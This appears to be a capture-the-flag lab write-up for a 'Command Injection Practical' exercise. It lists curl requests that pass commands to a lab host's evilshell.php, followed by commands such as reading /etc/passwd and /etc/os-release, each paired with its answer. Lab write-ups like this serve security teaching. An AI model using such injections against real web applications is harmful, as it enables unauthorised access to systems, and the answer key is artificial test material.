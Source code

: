 # [Severity 1] Command Injection Practical

### What strange text file is in the website root directory?
```
[in web]
ls
[in cmd]
# curl -X GET http://10.10.235.224/evilshell.php?commandString=ls
or
# curl -X GET --data "commandString=ls" -G http://10.10.235.224/evilshell.php
```
> *Answer:* drpepper.txt

### How many non-root/non-service/non-daemon users are there?
```
cat /etc/passwd
```
> *Answer:* 0

### What user is this app running as?
```
whoami
```
> *Answer:* www-data

### What is the user's shell set as?
```
cat /etc/passwd
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```
> *Answer:* /usr/sbin/nologin

### What version of Ubuntu is running?
```
cat /etc/os-release
or
lsb_release -a
or
hostnamectl
```
> *Answer:* 18.04.4

### Print out the MOTD.  What favorite beverage is shown?
```
cat /etc/update-motd.d/00-header
...
DR PEPPER MAKES THE WORLD TASTE BETTER!
```
> *Answer:* Dr Pepper
